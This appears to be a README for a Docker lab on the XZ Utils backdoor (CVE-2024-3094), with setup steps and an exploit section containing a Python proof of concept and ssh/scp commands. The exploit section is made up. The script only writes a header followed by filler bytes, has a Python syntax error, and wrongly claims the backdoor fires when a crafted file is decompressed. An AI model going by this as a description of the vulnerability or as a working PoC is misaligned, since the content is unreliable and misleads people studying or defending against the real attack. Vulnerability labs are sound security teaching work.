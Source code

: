 # XZ Utils Backdoor (CVE-2024-3094)

XZ Utils is a general-purpose data compression software with high compression ratio. In March 2024, a critical backdoor was discovered in XZ Utils versions 5.6.0 and 5.6.1. This backdoor allows remote attackers to execute arbitrary code by manipulating the compression process.

The backdoor was introduced through a supply chain attack, where malicious code was inserted into the XZ Utils source code. This vulnerability affects systems using the compromised versions of XZ Utils.

References:
- https://www.openwall.com/lists/oss-security/2024/03/29/4 (Initial disclosure)
- https://nvd.nist.gov/vuln/detail/CVE-2024-3094 (CVE details)

## Environment setup

The vulnerable environment exposes the following port

| Port | Service | Description |
|------|---------|-------------|
| 2222 | SSH     | Remote access allowed |

To start the vulnerable environment:

```bash
docker compose up -d
```

## Exploit

The backdoor is triggered when processing specially crafted XZ files. Here's a basic PoC

1. First, create a malicious XZ file (poc.xz)
```python
#!/usr/bin/env python3
import struct

# Create a specially crafted XZ file that triggers the backdoor
header = b'\xfd\x37\x7a\x58\x5a\x00\x00'  # XZ file header
payload = b'A' * 1000  # Replace with actual payload

with open('poc.xz', 'wb') as f
    f.write(header + payload)
```

2. Transfer the file to the target system
```bash
scp -P 2222 poc.xz root@localhost:/tmp/
```

3. Trigger the backdoor by decompressing the file
```bash
ssh -p 2222 root@localhost "xz -d /tmp/poc.xz"
```

The backdoor will be triggered during the decompression process. You can verify the XZ Utils version and check for signs of compromise

```bash
ssh -p 2222 root@localhost "xz --version && ls -la /tmp"
```

Note: This is a basic PoC. The actual backdoor is more sophisticated and requires specific conditions to be met.

## Note

This environment is for educational purposes only. Do not use in production environments. 